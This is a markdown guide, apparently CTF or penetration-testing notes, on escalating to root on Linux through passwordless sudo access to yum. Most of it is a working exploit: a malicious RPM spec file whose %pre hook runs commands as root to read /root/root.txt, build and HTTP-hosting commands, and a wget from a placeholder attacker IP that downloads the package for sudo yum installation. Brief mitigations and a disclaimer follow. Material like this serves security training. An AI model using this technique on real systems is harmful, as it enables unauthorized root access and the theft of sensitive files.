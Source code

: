
# Linux Privilege Escalation via yum package manager

## Description
The `yum` package manager is a tool for installing, updating, and managing software packages in Linux distributions, particularly those based on Red Hat (e.g., CentOS, Fedora). It is often used with elevated privileges (`sudo`) to manage system-wide packages.

If a user has `sudo` permissions to run `yum` without a password (as seen in `sudo -l`), it can be exploited to escalate privileges and read sensitive files, such as `/root/root.txt`.

---

## Exploitation Steps

### Prerequisite: sudo access to `yum`
Check if the user has permission to run `yum` as root:
```bash
sudo -l
```

If you see something like:
```
User <username> may run the following commands on <hostname>:
    (ALL) NOPASSWD: /usr/bin/yum
```

You can proceed with this privilege escalation.

---

### Steps to Exploit

#### On the Attacker's Machine
1. **Create the malicious SPEC file**  
   Save the following as `malicious.spec`:
   ```spec
   Name: malicious
   Version: 1.0
   Release: 1
   Summary: Malicious RPM for privilege escalation
   License: GPL
   BuildArch: noarch

   %description
   This RPM reads sensitive files.

   %pre
   cat /root/root.txt

   %files
   %doc

   %changelog
   * Wed Dec 08 2024 Your Name <youremail@example.com> - 1.0-1
   - RPM to read sensitive files
   ```

2. **Build the malicious RPM**
   Run the following commands to prepare and build the RPM package:
   ```bash
   mkdir -p ~/rpmbuild/{BUILD,RPMS,SOURCES,SPECS,SRPMS}
   mv malicious.spec ~/rpmbuild/SPECS/
   rpmbuild -ba ~/rpmbuild/SPECS/malicious.spec
   ```

   The resulting RPM file will be located in `~/rpmbuild/RPMS/noarch/`.

3. **Host the RPM using Python HTTP server**
   Serve the malicious RPM over HTTP to make it accessible to the target:
   ```bash
   cd ~/rpmbuild/RPMS/noarch/
   python3 -m http.server 4444
   ```

#### On the Target Machine
1. **Download the malicious RPM**
   On the target machine, navigate to a writable directory like `/tmp` and download the RPM:
   ```bash
   cd /tmp
   wget http://<attacker-ip>:4444/malicious-1.0-1.noarch.rpm
   ```

2. **Install the malicious RPM**
   Use `sudo yum` to install the downloaded RPM:
   ```bash
   sudo yum localinstall malicious-1.0-1.noarch.rpm
   ```

3. **View the output**
   The content of `/root/root.txt` will be displayed on the terminal as a result of the `%pre` hook.

---

### Mitigation
- Restrict the use of `sudo yum` to trusted administrators.
- Use tools like `sudoers` to audit and limit commands.
- Regularly review and monitor system logs for unexpected `yum` operations.

---

### Disclaimer
This guide is for educational purposes only. Unauthorized use of this information may violate the law. Always ensure you have permission before attempting to exploit or test any system.

